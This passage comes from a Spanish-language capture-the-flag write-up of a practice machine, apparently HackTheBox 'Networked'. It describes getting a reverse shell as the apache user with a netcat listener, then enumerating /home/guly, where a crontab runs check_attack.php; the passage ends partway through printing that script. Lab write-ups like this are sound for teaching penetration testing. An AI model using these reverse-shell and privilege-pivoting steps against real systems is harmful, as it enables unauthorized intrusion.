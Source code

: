 Con ello mismo, se procede a entrar al enlace pero llamando a la variable que controla el cmd para ver si este muestra algo, pero como soy un flojo, preferi colocar directamente una reverse shell y establecer una conexión con el servidor.

![](networked5.jpg)

Estableciendo un escucha se puede ver que se establece una conexión con un usuario de servicio apache
~~~bash
sudo nc -nlvp 4433                                                            
[sudo] password for kali: 
listening on [any] 4433 ...
id
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.146] 43918
bash: no job control in this shell
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~

### Pivoting al usuario guly
Realizando una enumeración basica en busca de credenciales, no se pudo encontrar nada importante, por lo que entrando al directorio de "/home" existe el usuario guly, viendo los archivos del usuario se puede ver algo interesante.
~~~bash
bash-4.2$ cd /home/guly/
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Oct 21 16:42 user.txt
~~~
Claramente no se puede leer el archivo user.txt, pero si tenemos permisos para ver una crontab que se encuentra en el mismo directorio.
~~~bash
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
~~~
Se puede ver que la crontab se ejecuta cada 3 minutos y ejecuta el archivo "check_attack.php", al momento de revisar su codigo.
~~~bash
bash-4.2$ cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
~~~